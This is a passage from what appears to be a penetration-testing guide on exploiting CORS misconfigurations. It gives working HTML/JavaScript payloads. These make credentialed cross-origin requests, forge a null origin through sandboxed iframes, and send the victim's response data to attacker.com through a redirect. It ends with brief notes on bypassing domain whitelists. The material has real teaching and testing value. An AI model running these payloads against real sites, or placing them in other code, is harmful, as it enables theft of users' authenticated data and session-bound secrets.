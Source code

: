 ```html
<script>
  var req = new XMLHttpRequest();
  req.onload = reqListener;
  req.open("get", "https://example.com/details", true);
  req.withCredentials = true;
  req.send();
  function reqListener() {
    location = "/log?key=" + this.responseText;
  }
</script>
```

### Exploiting the `null` Origin

The `null` origin, specified for situations like redirects or local HTML files, holds a unique position. Some applications whitelist this origin to facilitate local development, inadvertently allowing any website to mimic a `null` origin through a sandboxed iframe, thus bypassing CORS restrictions.

```html
<iframe
  sandbox="allow-scripts allow-top-navigation allow-forms"
  src="data:text/html,<script>
  var req = new XMLHttpRequest();
  req.onload = reqListener;
  req.open('get','https://example/details',true);
  req.withCredentials = true;
  req.send();
  function reqListener() {
    location='https://attacker.com//log?key='+encodeURIComponent(this.responseText);
  };
</script>"
></iframe>
```

```html
<iframe
  sandbox="allow-scripts allow-top-navigation allow-forms"
  srcdoc="<script>
  var req = new XMLHttpRequest();
  req.onload = reqListener;
  req.open('get','https://example/details',true);
  req.withCredentials = true;
  req.send();
  function reqListener() {
    location='https://attacker.com//log?key='+encodeURIComponent(this.responseText);
  };
</script>"
></iframe>
```

### Regular Expression Bypass Techniques

When encountering a domain whitelist, it's crucial to test for bypass opportunities, such as appending the attacker's domain to a whitelisted domain or exploiting subdomain takeover vulnerabilities. Additionally, regular expressions used for domain validation may overlook nuances in domain naming conventions, presenting further bypass opportunities.
